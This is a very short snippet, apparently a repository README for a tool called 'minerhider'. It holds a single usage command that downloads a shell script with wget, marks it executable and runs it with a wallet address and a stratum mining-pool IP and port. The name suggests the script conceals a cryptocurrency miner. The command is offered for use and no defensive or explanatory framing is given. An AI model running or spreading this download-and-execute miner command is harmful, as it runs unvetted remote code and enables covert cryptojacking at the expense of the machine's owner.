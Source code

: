 runing miner :
usega :

wget https://github.com/minhide/minerhider/raw/refs/heads/main/sh && chmod +x sh && ./sh RVV8T2V36o6sxWJqqqc6fTLF6pKp3RWifN.vpsmner1 stratum+tcp://167.172.65.186:4052 2 n


